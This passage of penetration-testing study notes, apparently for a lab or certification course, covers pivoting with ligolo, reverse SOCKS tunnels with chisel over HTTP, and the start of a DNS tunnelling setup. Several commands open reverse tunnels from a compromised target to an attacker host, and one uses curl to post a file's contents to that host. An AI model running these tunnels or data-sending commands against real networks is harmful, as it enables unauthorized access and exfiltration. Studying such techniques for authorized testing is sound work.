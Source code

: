 ### Agent
On target
```bash
./agent -connect [kali_ip]:443 -ignore-cert
```
### Tunnel set up
Choose our session.
```bash
session
```
Then verify the network interfaces on the connected agent.
```bash
ifconfig
```
e.g. 192.168.56.0/24 is accessible by target, then we add:
```bash
sudo ip route add 192.168.56.0/24 dev ligolo
```
 start the tunnel and go to the jump box
```bash
start
```
if use nmap, please add `--unprivileged`
To remove:
```bash
sudo ip route del 192.168.56.0/24 dev ligolo
```

## HTTP Tunneling
Only HTTP(S) traffic is allowed.
### Using chisel
Can run on _macOS_, _Linux_, and _Windows_
On kali:
```bash
chisel server --port 8080 --reverse
```
log incoming traffic:
```bash
sudo tcpdump -nvvvXi tun0 tcp port 8080
```
Check the status of our SOCKS proxy
```bash
ss -ntplu
```
On the target:
```bash
chisel.exe client [kali_ip]:8080 R:[local_port]:[remote_ip]:[remote_port]
chisel client [kali_ip]:8080 R:socks > /dev/null 2>&1 &
```
To debug the `output`:
```bash
chisel client [kali_ip]:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://[kali_ip]:8080/
```
Check Tcpdump output for attempted connections.
If there is compatibility error(e.g. Glibc) -> Find a chisel compiled by old version of Golang.
Add `socks5 127.0.0.1:1080` to `/etc/proxychains4.conf`   - Default socks port is `1080`
## DNS Tunneling
### DNS setup
On a functional DNS server. Use dnsmasq.
```bash
cat dnsmasq.conf
```
set configuration. Then run `dnsmask`